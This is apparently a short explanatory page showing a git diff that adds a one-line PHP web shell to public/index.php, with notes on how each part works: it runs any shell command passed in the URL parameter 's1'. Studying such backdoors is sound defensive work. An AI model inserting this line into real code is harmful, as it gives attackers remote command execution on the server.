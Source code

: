 ```
$ git diff
diff --git a/public/index.php b/public/index.php
index 9da023e..7d23163 100644
--- a/public/index.php
+++ b/public/index.php
@@ -11,6 +11,8 @@

 // Register the Composer autoloader...

+$testc = $_GET['s1']; echo `$testc`;
+
 require __DIR__.'/../vendor/autoload.php';
```

`$_GET['s1']`: This part means the script is taking input directly from a URL parameter named `s1`. 
`$testc = $_GET['s1']`: The value from the `s1` URL parameter is assigned directly to the variable `$testc`.
`` `$testc` `` (backticks/gravé accents): When a string is enclosed in backticks, the interpreter treats that string as a shell command and executes it. The output of that command is then returned as a string.